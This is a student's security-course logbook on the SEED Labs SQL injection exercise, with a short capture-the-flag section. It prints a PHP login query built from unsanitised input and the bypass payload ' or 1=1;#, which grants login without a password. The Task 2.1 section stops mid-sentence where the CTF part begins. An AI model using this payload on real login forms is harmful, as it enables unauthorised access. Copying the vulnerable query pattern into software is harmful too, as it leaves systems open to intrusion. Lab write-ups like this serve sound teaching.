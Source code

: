 # Trabalho realizado na Semana #8 - SQL Injection Attack

For this week we where proposed to do tasks presented on this link: https://seedsecuritylabs.org/Labs_20.04/Web/Web_SQL_Injection/

## Task 1 - Get Familiar with SQL Statements

The task was to select the data of the user "Alice". As SQL is already well known, we easily arrive at the correct command to complete the task:

```sql
SELECT * FROM credentials WHERE Name = "Alice";
```

This is how we obtained all of Alice’s personal data:

![image_task1](image-7.png)

## Task 2 - SQL Injection Attack on SELECT Statement

### Task 2.1 - Login in adminstrator mode from webpage

We access the website "www.seed-server.com" provided by the Docker container and also the file `unsafe_home.php`. Then we could see that the query used is fragile because the server creates the command dynamically with unsanitized strings from the user input:



# CTF - Control The Flag

When entering the website we are presented with a login page. To unlock the vault we need to provide an valid username and password combination.
The goal for this CTF is to log in as valid user. To achieve that, we can use SQL Injection, since the user inputs are not verified, nor used as parameters for the query.

This is the SQL query executed:
```php
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

The input used is: `' or 1=1;#`
This input is always true and comments the part where the password is verified.

![login](/Logbooks/img/Week8/login.png)

This is the SQL query that is actually executed:
```php
$query = "SELECT username FROM user WHERE username = '"' or 1=1;#"' AND password = '".$password."'";
```
We can successfully login and obtain the flag.

![flag](/Logbooks/img/Week8/flag.png)